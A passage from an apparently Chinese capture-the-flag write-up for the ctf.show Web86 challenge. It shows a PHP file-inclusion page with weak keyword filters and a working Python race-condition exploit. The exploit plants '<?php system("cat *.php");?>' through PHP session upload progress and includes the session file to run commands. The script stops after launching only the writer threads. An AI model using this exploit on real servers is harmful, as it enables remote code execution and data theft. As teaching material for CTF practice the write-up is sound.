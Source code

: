 ```php
}else{
    highlight_file(__FILE__);
}

####Web86
<?php
define('还要秀？', dirname(__FILE__));
set_include_path(还要秀？);
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);

    
}else{
    highlight_file(__FILE__);
}
```

解题思路：由于题目中过滤了`.`，所以上面的方法不能使用了，这个题目要利用session对话进行文件包含利用

通杀python脚本：

```python
# -*- coding: utf-8 -*-
import io
import requests
import threading

sessID = 'flag'
url = 'http://85377b2d-76ff-49dd-95bc-1a67931482c1.challenge.ctf.show/'


def write(session):
    while event.isSet():
        f = io.BytesIO(b'a' * 1024 * 50)
        response = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat *.php");?>'},
            files={'file': ('test.txt', f)}
        )


def read(session):
    while event.isSet():
        response = session.get(url + '?file=/tmp/sess_{}'.format(sessID))
        if 'test' in response.text:
            print(response.text)
            event.clear()
        else:
            pass


if __name__ == '__main__':
    event = threading.Event()
    event.set()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()

```